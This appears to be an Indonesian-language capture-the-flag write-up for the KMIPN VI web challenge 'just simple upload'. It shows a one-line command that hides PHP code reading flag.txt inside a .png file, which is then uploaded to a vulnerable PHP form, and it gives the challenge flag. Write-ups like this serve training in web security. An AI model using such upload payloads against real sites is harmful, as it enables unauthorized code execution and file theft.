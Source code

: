 ```yaml
---
icon: globe-pointer
---
```


# just simple upload

{% hint style="info" %}
Tantangan web KMIPN VI yang sangat mudah diselesaikan. Seperti pada namanya, upload file dan dapatkan flagnya jika paylaod-nya sudah sesuai.
{% endhint %}

## 1. Deskripsi Tantangan

> temen ku baru belajar bikin form upload, sepertinya tidak beres
>
> [_http://157.173.204.136:8089/_](http://157.173.204.136:8089/)

## 2. Langkah Penyelesaian

* Sebuah web simple berbasis PHP yang memiliki fitur untuk upload file.
* Craft sebuah png file yang disisipkan dengan script malicious php berikut ini.

```bash
echo "<?php echo file_get_contents('flag.txt'); ?>" > get_flag.png
```

* Upload file tersebut dan nantinya akan tampil flag-nya!

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## 3. Flag

<kbd>KMIPNVIPNJ{disable\_function\_on\_upload\_file\_exploit}</kbd>

***

## References

* [https://github.com/azfarwisnu/KMIPN-FINAL-CYBER-SECURITY-2024/tree/main/web](https://github.com/azfarwisnu/KMIPN-FINAL-CYBER-SECURITY-2024/tree/main/web)

***

**Tags**: #ctf, #web-exploitation
